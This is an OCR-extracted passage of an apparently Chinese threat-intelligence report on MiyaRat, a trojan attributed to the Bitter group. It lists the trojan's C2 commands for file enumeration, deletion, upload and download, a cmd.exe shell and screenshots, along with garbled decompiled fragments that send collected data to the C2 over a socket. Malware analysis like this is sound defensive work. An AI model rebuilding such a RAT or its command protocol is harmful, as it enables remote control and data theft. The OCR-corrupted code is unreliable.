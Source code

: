if（!（（int（-_cdecl\*)（int $^{*}$ ))RtlGetVersion)(v244)) v177 =V244[2]; v8 $=$ Fn_40A260（（char\*）&v250[4],v244[1]）; v9 $=$ （char\*)Fn_412340（(int)v8,（const unsigned__int16\*)"."); v10 $=$ Fn_40A260(v9,v177); Fn_412340（（int)v10,（const unsigned-_int16\*)""): GetProductInfo（v244[1],v244[2],0,0,&pdwReturnedProductType); v178=v244[3];  

![](https://cdn-mineru.openxlab.org.cn/extract/f79e384a-9894-4d84-a5b2-763edd35f0ef/e166fac42b55737de2335599edf795e131e551d7dae4e59d919d557107385cd6.jpg)  

发送完收集的信息后，木马进入等待接收C2服务器下发指令的循环过程。木马支持的功能包括：文件信息枚举、命令执行、文件上传和下载、截屏等。下面对该木马涉及的指令依次进行介绍。  

木马指令整理如下：  


<html><body><table><tr><td>指令代码</td><td>功能</td></tr><tr><td>GDIR</td><td>列举指定目录下的文件和子目录信息，不遍历子目录</td></tr><tr><td>DELz</td><td>删除指定文件</td></tr><tr><td>GFS</td><td>递归枚举指定目录的所有文件信息</td></tr></table></body></html>  

蔓灵花组织启用全新特马MiyaRat，国内用户成为首要目标  


<html><body><table><tr><td>SH1cmd</td><td>创建命令执行的shell</td></tr><tr><td>SH1,SH2</td><td>将命令传入shell</td></tr><tr><td>SFS</td><td>连接C2服务器指定端口进行文件传输操作，二级指令UPL1上 传文件，DWNL下载文件</td></tr><tr><td>GSS</td><td>截屏</td></tr><tr><td>SH1exitclient</td><td>退出木马进程</td></tr></table></body></html>  

#### (1）GDIR  

列举指定目录下的文件和子目录信息，类似 Windows 的 dir 命令或 Linux 的Is 命令。列举信息包括文件和子目录名称、最近修改时间以及文件大小。目录枚举信息以‘ $\prime[\mathsf{E N D}]\sim\mathsf{I@\"{\$ 结尾。  

![](https://cdn-mineru.openxlab.org.cn/extract/f79e384a-9894-4d84-a5b2-763edd35f0ef/a3565d14e63dd4c8f0a1ac5131e8fd8ed325cbd2ee47a548a3c05ad6004b3256.jpg)  

#### (2）DELz  

删除指定文件。  

if( $y z72=7$ 一$\downarrow T1=$ (LPCV0ID \*)v270[0];  
_wremove（（const wchar_t \*)v71); //删除文件  

#### (3) GFS  

递归枚举指定目录的所有文件信息，包括每个文件的路径和大小。在发送给C2 服务器信息的首行包含所有文件的总大小，输出信息用 $"\ @\ @\mathsf{G F S"}$ 标识。  

send(g_socket,（const char \*)v99,v274[0],0);   
sub_404E20(v270,::WideCharStr);   
LOBYTE $\sqrt{284})=52.$   
$\mathrm{vig}\in\mathbb{V}\bar{\mathbb{Z}}\bar{\mathbb{C}}$   
if（ $\because\sum72>0\times5$ 1   
v100 $=$ (LPCV0ID \*)v270[0];   
send（g_socket,(const char \*)v1o0,nNumberofBytesToWrite,①); Sleep(0x64u):   
send(g_socket,“=@@GFS",6,0）;   
sleep(0x1Eu);   
V101 $=$ ::WideCharStr;  

![](https://cdn-mineru.openxlab.org.cn/extract/f79e384a-9894-4d84-a5b2-763edd35f0ef/bc05558e9e49fe51384c9cfe78321a9e048683d01655485af15ab4099f8a25d1.jpg)  

#### (4) SH1cmd  

创建一个 cmd.exe 进程作为 shell，执行管道传入的cmd 指令，并将执行结果返回给 C2 服务器。  
